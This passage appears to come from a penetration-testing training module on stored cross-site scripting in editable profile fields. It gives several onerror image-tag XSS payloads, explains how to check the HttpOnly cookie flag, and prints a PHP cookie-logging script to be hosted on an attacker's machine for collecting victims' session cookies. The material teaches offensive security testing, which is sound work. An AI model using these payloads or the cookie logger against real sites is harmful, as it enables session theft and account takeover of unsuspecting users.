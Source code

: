 
### Example scenario

You can access an account that can be modified. Example, you can modify the email, phone number, country, etc.

In such cases, it is best to use payloads with event handlers like onload or onerror since they fire up automatically and also prove the highest impact on stored XSS cases. Of course, if they're blocked, you'll have to use something else like onmouseover.

In one field, let us specify the following payload:
```"><img src=x onerror=prompt(document.domain)>```

We are using document.domain to ensure that JavaScript is being executed on the actual domain and not in a sandboxed environment. JavaScript being executed in a sandboxed environment prevents client-side attacks. It should be noted that sandbox escapes exist but are outside the scope of this module.

In the remaining two fields, let us specify the following two payloads:

- ```"><img src=x onerror=confirm(1)>```
- ```"><img src=x onerror=alert(1)>```

The profile was updated successfully. We notice no payload being triggered, though! Often, the payload code is not going to be called/executed until another application functionality triggers it. Let us go to "Share," as it is the only other functionality we have, to see if any of the submitted payloads are retrieved in there. This functionality returns a publicly accessible profile. Identifying a stored XSS vulnerability in such a functionality would be ideal from an attacker's perspective.

**Let us now check if HTTPOnly is "off" using Web Developer Tools**.

We can check this by going in the "storage" tab in the "developers tools" and check the "httpOnly" column.

### Obtaining session cookies via XSS

We identified that we could create and share publicly accessible profiles that contain our specified XSS payloads.

Let us create a cookie-logging script (save it as log.php) to practice obtaining a victim's session cookie through sharing a vulnerable to stored XSS public profile. The below PHP script can be hosted on a VPS or your attacking machine (depending on egress restrictions).

```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
?>
```
